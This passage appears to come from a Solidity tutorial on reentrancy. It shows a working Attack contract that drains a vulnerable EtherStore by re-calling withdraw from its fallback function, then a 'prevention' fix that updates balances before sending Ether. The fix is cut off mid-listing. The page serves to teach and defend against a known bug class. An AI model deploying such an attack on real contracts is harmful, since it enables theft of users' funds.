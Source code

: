 ```solidity
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;
    constructor(address _etherStoreAddress) public {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    fallback() external payable {
        if(address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }
    
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

#### prevention

##### method 1

```solidity
pragma solidity ^0.6.10;

/*
-What is reentrancy
*/

contract EtherStore{
    mapping(address => uint) public balances;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount);
        
                balances[msg.sender] -= _amount;
                
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
```
